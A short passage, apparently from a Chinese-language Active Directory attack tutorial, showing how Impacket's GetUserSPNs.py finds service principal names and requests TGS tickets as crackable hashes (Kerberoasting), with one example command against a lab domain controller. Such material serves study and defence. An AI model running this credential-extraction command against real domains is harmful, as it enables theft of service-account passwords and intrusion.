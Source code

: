 [![](assets/1708919803-35217f481a1f4fc2108d8facb25e92c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142250-2419ea48-ce26-1.png)

### 使用 Impacket

使用`GetUserSPNs.py`脚本可以自动化发现 SPN、提取 TGS、转换为 HASH

```plain
python GetUserSPNs.py -request -dc-ip 192.168.3.144 rootkit.org/micle
```

[![](assets/1708919803-692e49c544d81c8c5f249e215eab7c64.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142254-26b2b99c-ce26-1.png)
